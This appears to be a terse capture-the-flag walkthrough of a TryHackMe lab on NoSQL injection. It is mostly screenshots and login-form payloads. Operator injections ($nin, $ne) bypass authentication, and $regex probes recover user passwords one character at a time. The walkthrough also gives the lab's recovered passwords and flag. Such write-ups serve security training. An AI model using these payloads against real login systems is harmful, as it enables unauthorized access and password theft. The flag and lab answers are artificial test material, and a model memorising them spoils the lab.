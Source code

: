 ### 25-Mar-24-Mon

[TryHackMe | NoSQL injection Basics](https://tryhackme.com/r/room/nosqlinjectiontutorial)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/36585103-29cd-4bca-934e-d0e6e2ac2e10)

http://10.10.195.200/sekr3tPl4ce.php

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/0d56800a-04b3-4b88-b437-a8a9922d7770)

```
User:	admin
Password:	************
Full Name:	
email:	admin@nosql.int
```

```
user[$nin][]=admin&pass[$ne]=test&remember=on
```



```
user[$nin][]=admin&user[$nin][]=test&pass[$ne]=test&remember=on
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/406c2334-d76a-4378-8ef3-2573f7efbbe5)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/d457d48c-aafa-4502-92b4-6d7471cebbd6)

```
User:	pedro
Password:	************
Full Name:	
email:	pcollins@nosql.int
```

```
user=admin&pass[$regex]=^.{7}$&remember=on
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/fb6453d5-cadc-4c23-b093-7da27d070e9e)

```
user=admin&pass[$regex]=^.{8}$&remember=on
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/d09d8a15-ec8f-45d4-ab2f-90bb5cee6763)

```
user=admin&pass[$regex]=^a.......$&remember=on
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/4ab7d404-1927-4751-bec3-1e8ffd6f8396)

```
user=admin&pass[$regex]=^admin123$&remember=on
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/054b480e-c99a-452f-9475-3e8ab319e3b4)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/8d78023c-4b02-4b49-bfb1-7f5ba759fd4b)

```
user=john&pass[$regex]=^.{8}$&remember=on
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/3c9c670c-8af2-4c1d-b7de-b68caac23ed6)

https://youtu.be/-gN3ZYOxXak?t=2369

```
user=pedro&pass[$regex]=^coolpass123$&remember=on
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/9e289756-88cb-4855-a99a-42bafc97d144)

```
flag{N0Sql_n01iF3!}
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/a9434fdc-652e-4a52-8cf0-ec4e402083c8)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/0d09e5d1-320c-4a72-a0b9-bf7d495029da)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/98ee414f-21e9-407c-8a56-faecaff0b4ac)
